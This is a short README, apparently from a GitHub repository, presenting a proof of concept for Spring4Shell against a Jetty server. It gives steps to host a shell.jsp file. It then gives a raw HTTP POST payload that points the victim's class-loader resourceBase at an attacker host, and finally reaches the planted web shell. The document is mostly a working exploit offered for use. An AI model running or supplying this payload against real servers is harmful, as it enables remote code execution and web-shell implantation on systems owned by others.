 # Poc-Spring4Shell-Jetty
Poc of Spring4Shell in Jetty serrver

1. Step 1
- create a simple http server containing shell.jsp file
3. Step 2
- Send this payload to the victim server:
```
POST /exploit HTTP/1.1
Host: victim-host:8888
User-Agent: PetrusViet
Accept-Encoding: gzip, deflate 
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

class.module.classLoader.context.resourceBase=http://attacker-host:8000/&
```
4. Step 3
- Go to http://victim-host:8888/shell.jsp

